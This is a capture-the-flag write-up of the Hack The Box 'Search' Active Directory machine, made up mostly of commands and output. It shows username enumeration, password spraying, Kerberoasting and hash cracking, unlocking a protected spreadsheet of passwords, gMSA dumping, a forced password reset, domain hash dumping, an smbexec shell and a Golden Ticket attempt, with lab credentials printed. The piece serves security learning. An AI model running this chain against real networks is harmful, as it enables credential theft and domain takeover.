



---
tags:
  - hack
  - windows
---
# HTB: [Search](https://app.hackthebox.com/machines/Search)

> [!tip]- Summary with Spoilers
> This machine requires some unexpected sleuthing of its web site to discover credentials for a foothold. You'll need to understand AD enumeration (BloodHound is very helpful) as well as iterative enumeration to find the necessary credentials.

## Services

### TCP

```text
# Nmap 7.94SVN scan initiated Fri Sep 20 16:13:06 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-search.htb.txt search.htb
Nmap scan report for search.htb (10.10.11.129)
Host is up, received user-set (0.090s latency).
rDNS record for 10.10.11.129: t
Not shown: 65516 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Search &mdash; Just Testing IIS
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-09-20 22:13:27Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Issuer: commonName=search-RESEARCH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-11T08:13:35
| Not valid after:  2030-08-09T08:13:35
| MD5:   0738:614f:7bc0:29d0:6d1d:9ea6:3cdb:d99e
|_SHA-1: 10ae:5494:29d6:1e44:276f:b8a2:24ca:fde9:de93:af78
|_ssl-date: 2024-09-20T22:14:56+00:00; 0s from scanner time.
443/tcp   open  ssl/http      syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Search &mdash; Just Testing IIS
|_ssl-date: 2024-09-20T22:14:56+00:00; +1s from scanner time.
| tls-alpn:
|_  http/1.1
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=research
| Issuer: commonName=search-RESEARCH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-11T08:13:35
| Not valid after:  2030-08-09T08:13:35
| MD5:   0738:614f:7bc0:29d0:6d1d:9ea6:3cdb:d99e
|_SHA-1: 10ae:5494:29d6:1e44:276f:b8a2:24ca:fde9:de93:af78
445/tcp   open  microsoft-ds? syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-20T22:14:56+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=research
| Issuer: commonName=search-RESEARCH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-11T08:13:35
| Not valid after:  2030-08-09T08:13:35
| MD5:   0738:614f:7bc0:29d0:6d1d:9ea6:3cdb:d99e
|_SHA-1: 10ae:5494:29d6:1e44:276f:b8a2:24ca:fde9:de93:af78
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=research
| Issuer: commonName=search-RESEARCH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-11T08:13:35
| Not valid after:  2030-08-09T08:13:35
| MD5:   0738:614f:7bc0:29d0:6d1d:9ea6:3cdb:d99e
|_SHA-1: 10ae:5494:29d6:1e44:276f:b8a2:24ca:fde9:de93:af78
|_ssl-date: 2024-09-20T22:14:56+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: search.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-09-20T22:14:56+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=research
| Issuer: commonName=search-RESEARCH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-08-11T08:13:35
| Not valid after:  2030-08-09T08:13:35
| MD5:   0738:614f:7bc0:29d0:6d1d:9ea6:3cdb:d99e
|_SHA-1: 10ae:5494:29d6:1e44:276f:b8a2:24ca:fde9:de93:af78
8172/tcp  open  ssl/http      syn-ack ttl 127 Microsoft IIS httpd 10.0
|_ssl-date: 2024-09-20T22:14:56+00:00; +1s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=WMSvc-SHA2-RESEARCH
| Issuer: commonName=WMSvc-SHA2-RESEARCH
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-07T09:05:25
| Not valid after:  2030-04-05T09:05:25
| MD5:   eeb9:303e:6d46:bd8b:34a0:1ed6:0eb8:3287
|_SHA-1: 1e06:9fd0:ef45:b051:78b2:c6bf:1bed:975e:a87d:0458
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49675/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49704/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49716/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: RESEARCH; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2024-09-20T22:14:20
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 16:15:03 2024 -- 1 IP address (1 host up) scanned in 116.93 seconds
```

#### 80/tcp-http


## Remote Code Execution

<http://search.htb/#team-section> has a list of people, so I copy their full names into `fullnames.txt` and run Username Anarchy for permutations:

```console
$ ~/src/username-anarchy/username-anarchy -i ~/htb-search/fullnames.txt > anarchy.txt
```

I get three hits:

```console
$ kerbrute userenum --dc 10.10.11.129 -d search.htb ./anarchy.txt
...
2024/10/03 12:54:59 >  [+] VALID USERNAME:       keely.lyons@search.htb
2024/10/03 12:54:59 >  [+] VALID USERNAME:       dax.santiago@search.htb
2024/10/03 12:54:59 >  [+] VALID USERNAME:       sierra.frye@search.htb
2024/10/03 12:55:05 >  Done! Tested 115 usernames (3 valid) in 6.024 seconds
```

I clean them up and put them into `u.txt`:

```console
$ cat u.txt
keely.lyons
dax.santiago
sierra.frye
```

Running `kerbrute userenum` with the `xato-net-10-million-usernames.txt` wordlist also turns up `research` and (of course) `administrator`, so I add those to `u.txt`.

I check for `AS-REPRoasting`, but no joy:

```console
$ for i in `cat u.txt`; do impacket-GetNPUsers search.htb/$i -dc-ip 10.10.11.129 -request -no-pass ; done
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for administrator
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for research
[-] User research doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for keely.lyons
[-] User keely.lyons doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for dax.santiago
[-] User dax.santiago doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Getting TGT for sierra.frye
[-] User sierra.frye doesn't have UF_DONT_REQUIRE_PREAUTH set
```

On the main website, there's this image (shown zoomed):


I try `IsolationIsKey?` with `hope.sharp` as the username, and it works:

```console
$ nxc smb 10.10.11.129 -u hope.sharp -p IsolationIsKey?
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
```

I'm a little bit mad about that one.

Next I'll dig through all the available files:

```console
$ nxc smb 10.10.11.129 -u hope.sharp -p IsolationIsKey? --shares -M spider_plus -o DOWNLOAD_FLAG=true
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\hope.sharp:IsolationIsKey?
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]  DOWNLOAD_FLAG: True
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.10.11.129    445    RESEARCH         [*] Enumerated shares
SMB         10.10.11.129    445    RESEARCH         Share           Permissions     Remark
SMB         10.10.11.129    445    RESEARCH         -----           -----------     ------
SMB         10.10.11.129    445    RESEARCH         ADMIN$                          Remote Admin
SMB         10.10.11.129    445    RESEARCH         C$                              Default share
SMB         10.10.11.129    445    RESEARCH         CertEnroll      READ            Active Directory Certificate Services share
SMB         10.10.11.129    445    RESEARCH         helpdesk
SMB         10.10.11.129    445    RESEARCH         IPC$            READ            Remote IPC
SMB         10.10.11.129    445    RESEARCH         NETLOGON        READ            Logon server share
SMB         10.10.11.129    445    RESEARCH         RedirectedFolders$ READ,WRITE
SMB         10.10.11.129    445    RESEARCH         SYSVOL          READ            Logon server share
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.11.129.json".
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Shares:           8 (ADMIN$, C$, CertEnroll, helpdesk, IPC$, NETLOGON, RedirectedFolders$, SYSVOL)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Readable Shares:  5 (CertEnroll, IPC$, NETLOGON, RedirectedFolders$, SYSVOL)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Writable Shares:  1 (RedirectedFolders$)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Total folders found:  148
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Total files found:    35
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] File size average:    871.74 B
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] File size min:        20 B
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] File size max:        6.2 KB
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] File unique exts:     10 (.crl, .crt, .ini, .inf, .asp, .txt, .xml, .lnk, .pol, .cmtx)
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Downloads successful: 33
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Downloads failed:     2
```

```console
./SYSVOL/search.htb/Policies/{41DD7D0B-E072-4853-AB8D-1C1D9E3CE356}/GPT.INI
./SYSVOL/search.htb/Policies/{41DD7D0B-E072-4853-AB8D-1C1D9E3CE356}/User/comment.cmtx
./SYSVOL/search.htb/Policies/{41DD7D0B-E072-4853-AB8D-1C1D9E3CE356}/User/Registry.pol
./SYSVOL/search.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
./SYSVOL/search.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/USER/comment.cmtx
./SYSVOL/search.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/USER/Registry.pol
./SYSVOL/search.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Services/Services.xml
./SYSVOL/search.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
./SYSVOL/search.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./SYSVOL/search.htb/Policies/{E9CE279C-52D0-4856-9073-82BAB4EB85AF}/GPT.INI
./SYSVOL/search.htb/Policies/{E9CE279C-52D0-4856-9073-82BAB4EB85AF}/Machine/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./SYSVOL/search.htb/Policies/{E9CE279C-52D0-4856-9073-82BAB4EB85AF}/Machine/Registry.pol
./SYSVOL/search.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
./SYSVOL/search.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
./SYSVOL/search.htb/Policies/{D47E9F04-E75B-4E07-8654-6C82FE85EAA2}/GPT.INI
./SYSVOL/search.htb/Policies/{D47E9F04-E75B-4E07-8654-6C82FE85EAA2}/User/Registry.pol
./SYSVOL/search.htb/Policies/{E2008E68-F4C5-49B7-9D1C-9D24DEBD8F1D}/GPT.INI
./SYSVOL/search.htb/Policies/{E2008E68-F4C5-49B7-9D1C-9D24DEBD8F1D}/User/Documents & Settings/fdeploy.ini
./SYSVOL/search.htb/Policies/{E2008E68-F4C5-49B7-9D1C-9D24DEBD8F1D}/User/Documents & Settings/fdeploy1.ini
./RedirectedFolders$/hope.sharp/Desktop/$RECYCLE.BIN/desktop.ini
./RedirectedFolders$/hope.sharp/Desktop/Microsoft Edge.lnk
./RedirectedFolders$/hope.sharp/Desktop/desktop.ini
./RedirectedFolders$/hope.sharp/Downloads/$RECYCLE.BIN/desktop.ini
./RedirectedFolders$/hope.sharp/Downloads/desktop.ini
./RedirectedFolders$/hope.sharp/Documents/$RECYCLE.BIN/desktop.ini
./RedirectedFolders$/hope.sharp/Documents/desktop.ini
./RedirectedFolders$/sierra.frye/Desktop/$RECYCLE.BIN/desktop.ini
./RedirectedFolders$/sierra.frye/Desktop/Microsoft Edge.lnk
./RedirectedFolders$/sierra.frye/Desktop/desktop.ini
./CertEnroll/search-RESEARCH-CA.crl
./CertEnroll/Research.search.htb_search-RESEARCH-CA.crt
./CertEnroll/search-RESEARCH-CA+.crl
./CertEnroll/nsrev_search-RESEARCH-CA.asp
```

I dig through these files but I don't find anything I recognize as useful.

I can use the owned user to grab data for BloodHound:

```console
$ bloodhound-python -u hope.sharp -p IsolationIsKey? -c all --zip -ns 10.10.11.129 -d search.htb
INFO: Found AD domain: search.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 112 computers
INFO: Connecting to LDAP server: research.search.htb
INFO: Found 107 users
INFO: Found 64 groups
INFO: Found 6 gpos
INFO: Found 27 ous
INFO: Found 19 containers
INFO: Found 0 trusts
...
INFO: Done in 00M 55S
INFO: Compressing output into 20241003141625_bloodhound.zip
```

`web_svc` is Kerberoastable.

```console
$ impacket-GetUserSPNs -dc-ip 10.10.11.129 search.htb/hope.sharp:IsolationIsKey? -request
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

ServicePrincipalName               Name     MemberOf  PasswordLastSet             LastLogon  Delegation
---------------------------------  -------  --------  --------------------------  ---------  ----------
RESEARCH/web_svc.search.htb:60001  web_svc            2020-04-09 06:59:11.329031  <never>

[-] CCache file is not found. Skipping...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$01fde3d5c9fecbf8414635ab9d3a5de6$d74d50d3b93c87b8a769e15213a530d143fd7f1651bf0ecf240dee80fd7c59e59f2a8a0d585cd0dfa86dc8853163026b52cfe44b2ecc4d6e02934df0c1ee906cf92c369a7ddb60864d05b2240e89c5bf4e803ebdf41c72ec9b4cc86de1e08fc64d94a98a4f957b28e5ad809a599f9ea6fd8dff19d9589db22dc88fdfcb059673bd2f3a1...
```

```console
$ hashcat ./search.web_svc ~/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule
hashcat (v6.2.6) starting in autodetect mode
...
$krb5tgs$23$*web_svc$SEARCH.HTB$search.htb/web_svc*$01fde3d5c9fecbf8414635ab9d3a5de6$d74d50d3b93c87b8a769e15213a530d143fd7f1651bf0ecf240dee80fd7c59e59f2a8a0d585cd0dfa86dc8853163026b52cfe44b2ecc4d6e02934df0c1ee906cf92c369a7ddb60864d05b2240e89c5bf4e803ebdf41c72ec9b4cc86de1e08fc64d94a98a4f957b28e5ad809a599f9ea6fd8dff19d9589db22dc88fdfcb059673bd2f3a10f815798e9d18dcbfddf63104d704159d490a4c3d5164c2d55cd9e7164de896aa491e714d201e7d5455d1e1621d607a0cdd94f90036113ad98e4a58aa0f739e4f4c30119def22e60fd6ce2f78285baaefe087f19c9d772faf91ca2dbcd63eeaf6874f9ca4623bde14b0a14e80b3d4ef6ef4126505960422beed2ff87e2a3dae8c701424c5b15308b0064b1f16f6750861a37030e03e9f63ec48f62fedae2ae13e417f1ea98281091f96f8e097c6779214ec34cd8ebddadd640e6f04ddf790ce3cab7754fe961a3b7373f021dde3e860e8f5ac9acd8e9736dd21c7f32729e3f836f764b5b736b6996f643c52ba9f6a2bdd9823c4fd96357721249b294d3b77f32b3a5dfa7b598de929e1aa291e576eda7f88a8be5c41b0f2dc5b195307943a798f3c77633bfac247db34fe54d0aa12095059ae4c81d1321a50c5c89bfd7a8b18753aac9e34e68ecaf2b7280980fa81096e58d60453e43bd30fe306b8045cfa2c107908f32eacd145ae072765a40021ca369b836b8428ced409b4fa0f69b6d1af755d2d076cc10d65b371ad5c5b4af075bbcd8cfced0f2301736a0f9fb00fb28678d0d2480ff29c0969e25c037377c8ad82fef68f329c6e7b02230311e3388c6bf006dbf9e14a30ee2273137e76de74d2b80622ca8c9c3fcd6bbcf7ee8d26e1f149dd66066e4ec8eb5708ce307329bea755aed729d50faf86261e3facdefccae6bff462133819ff257bfb40a6913151e5cd03803a7a751761bf7d3bdcef6cb8ca55a5e054a37e6150bd5036e910bcf2b8bb06cedb227355f065d4f404ed009df0d3a1fe3cca666ac9f915e347cec11ab2de7d8dea757cb0560572a561df98564d8b0b751bb8cd7b4dfe15d068058951e1ae8be10657e1861b50dd3c7a3fe1f825e4e61972d420607bc7b4aceadff2b4450caf82156fac3565cf480f37f64ab95fe9b09356ee3cefe5073ba29d599d0528e3eb6e61356e8e14603dd23e51dbe18758fb2dd2fb32f69e016257378b6ecea9e8350623dce0ab43e0e00997b0127c213ebade668738576d943da03d663b27d936f389e474d29edf841a644172869dfe03a5138e12d961f66a2e1c6efb86640039b03cfbf8c86c6e750bce43cb9084eb09978a12fd22aac4a7c35d7958ec6a136ebbc18ffcf9a5ada58024335eb5615a6cedb243ae229f0ec3ce78b0ad04e65ae2beeca7fa9d5a47385fe2c31ffe65ff62b52c802eb4c2b6cebcac6f968c1c92457748ab56ca2e7729ec5af294bd1bab2ffbb76d24d3a7e6d6f90a40eec23ee33986:@3ONEmillionbaby
```

Credentials: `web_svc:@3ONEmillionbaby`

I refresh my list of usernames and spray with the two passwords I've recovered so far, and pick up one additional account, `edgar.jacobs`. However, none of the three accounts I control have given me RCE yet.

 I re-run `spider_plus` as `edgar.jacobs`, and pick up an interesting file: `/tmp/nxc_hosted/nxc_spider_plus/10.10.11.129/RedirectedFolders$/edgar.jacobs/Desktop/Phishing_Attempt.xlsx`

Using `libreoffice`, I see there's a sheet named `Passwords ds 01082020`:


I assume the passwords are in column "C", but I can't show the column because the sheet is marked protected.

But, this is easy to work around. These spreadsheets are just ZIP archive. Vim works automatically for editing files directly inside of an archive, so `vim Phishing_Attempt.xlsx` shows this:

```text
1 " zip.vim version v33
 2 " Browsing zipfile /home/e/htb-search/Phishing_Attempt.xlsx
 3 " Select a file with cursor and press ENTER
 4
 5 [Content_Types].xml
 6 _rels/.rels
 7 xl/workbook.xml
 8 xl/_rels/workbook.xml.rels
 9 xl/worksheets/sheet1.xml
10 xl/worksheets/sheet2.xml
11 xl/theme/theme1.xml
12 xl/styles.xml
13 xl/sharedStrings.xml
14 xl/drawings/drawing1.xml
15 xl/charts/chart1.xml
16 xl/charts/style1.xml
17 xl/charts/colors1.xml
18 xl/worksheets/_rels/sheet1.xml.rels
19 xl/worksheets/_rels/sheet2.xml.rels
20 xl/drawings/_rels/drawing1.xml.rels
21 xl/charts/_rels/chart1.xml.rels
22 xl/printerSettings/printerSettings1.bin
23 xl/printerSettings/printerSettings2.bin
24 xl/calcChain.xml
25 docProps/core.xml
26 docProps/app.xml
```

The sheet with the passwords was the second sheet, so I edit `xl/worksheets/sheet2.xml`. All I have to do is remove the protection element, highlighted below:



After removing the protection, I can open the sheet and show the hidden column.



I copy those columns into two files, and use `nxc smb`'s `--no-bruteforce` option with the user and passwords recovered from the spreadsheet. I hit on one valid login:

```console
$ nxc smb 10.10.11.129 -u phish.users -p phish.passwords --continue-on-success --no-bruteforce
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [-] search.htb\Payton.Harmon:;;36!cried!INDIA!year!50;; STATUS_LOGON_FAILURE
...
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\Sierra.Frye:$$49=wide=STRAIGHT=jordan=28$$18
...
```

I re-spider the shares with the new user, and get the user flag:

```console
$ nxc smb 10.10.11.129 -u sierra.frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -M spider_plus -o DOWNLOAD_FLAG=true
...
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Downloads successful: 8
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] Unmodified files:     26
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [*] All files were not changed.
SPIDER_PLUS 10.10.11.129    445    RESEARCH         [+] All files processed successfully.

$ find /tmp/nxc_hosted/nxc_spider_plus/10.10.11.129/ -type f
...
/tmp/nxc_hosted/nxc_spider_plus/10.10.11.129/RedirectedFolders$/sierra.frye/Downloads/Backups/search-RESEARCH-CA.p12
/tmp/nxc_hosted/nxc_spider_plus/10.10.11.129/RedirectedFolders$/sierra.frye/Downloads/Backups/staff.pfx
/tmp/nxc_hosted/nxc_spider_plus/10.10.11.129/RedirectedFolders$/sierra.frye/Downloads/desktop.ini
/tmp/nxc_hosted/nxc_spider_plus/10.10.11.129/RedirectedFolders$/sierra.frye/user.txt
...

$ cat /tmp/nxc_hosted/nxc_spider_plus/10.10.11.129/RedirectedFolders$/sierra.frye/user.txt
da2d81...
```

## Privilege Escalation

Bloodhound shows that the newly owned user has transitive `ReadGMSAPassword` rights:



Using [gMSADumper](https://github.com/micahvandeusen/gMSADumper)

```console
$ ./gMSADumper.py -u sierra.frye -p '$$49=wide=STRAIGHT=jordan=28$$18' -d search.htb
Users or groups who can read password for BIR-ADFS-GMSA$:
 > ITSec
BIR-ADFS-GMSA$:::e1e9fd9e46d0d747e1595167eedcec0f
BIR-ADFS-GMSA$:aes256-cts-hmac-sha1-96:06e03fa99d7a99ee1e58d795dccc7065a08fe7629441e57ce463be2bc51acf38
BIR-ADFS-GMSA$:aes128-cts-hmac-sha1-96:dc4a4346f54c0df29313ff8a21151a42
```

```console
$ net rpc password tristan.davies 0wned123 -U search.htb/'BIR-ADFS-GMSA$'%e1e9fd9e46d0d747e1595167eedcec0f --pw-nt-hash -S 10.10.11.129
```

```console
$ nxc smb 10.10.11.129 -u tristan.davies -p 0wned123
SMB         10.10.11.129    445    RESEARCH         [*] Windows 10 / Server 2019 Build 17763 x64 (name:RESEARCH) (domain:search.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.129    445    RESEARCH         [+] search.htb\tristan.davies:0wned123 (Pwn3d!)
```

```console
$ impacket-secretsdump -just-dc tristan.davies:0wned123@10.10.11.129
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e3c0abbe0b4163c5612afe25c69ced6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cd69d23e4383daa5b0f42d29dba9529a:::
...
```

Getting shell access is a little trickier than usual. I suspect it's because SMB signing is enabled, which screws with `psexec` and the like. Ironically, `smbexec` does the trick though:

```console
$ impacket-smbexec tristan.davies:0wned123@10.10.11.129
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```

The admin desktop has `root.txt`.

## Open Questions

I would like to know more about what's on port 8172 and any potential for abusing it. I think it has something to do with [MSDeploy](https://learn.microsoft.com/en-us/aspnet/web-forms/overview/deployment/web-deployment-in-the-enterprise/deploying-web-packages) but I don't see a lot of pentesting information about that topic.

Also, I was unable to create a working Golden Ticket for this AD set. The hash dump from `secretsdump` gave me what I should need to create a Golden Ticket:

```text
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:c870b887ebb9c0900fc3c1ef25e0592c4da89bf7eb1cf6d3064d44afb2dc86f9
Administrator:aes128-cts-hmac-sha1-96:07431caa0e0c70a2adc8f9ce43e181b1
Administrator:des-cbc-md5:52d02af1f2fba43e
krbtgt:aes256-cts-hmac-sha1-96:6f262b5b5f3f9267636f520c7b11388ce2b9ba24a78915d970a45c719bc9e110
krbtgt:aes128-cts-hmac-sha1-96:ee074e16c57124602342f055d5d66442
krbtgt:des-cbc-md5:15ae2a851068029b
...
...
```

Creating the ticket:

```console
$ impacket-ticketer -nthash cd69d23e4383daa5b0f42d29dba9529a -domain-sid S-1-5-21-271492789-1610487937-1871574529 -domain search.htb administrator
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
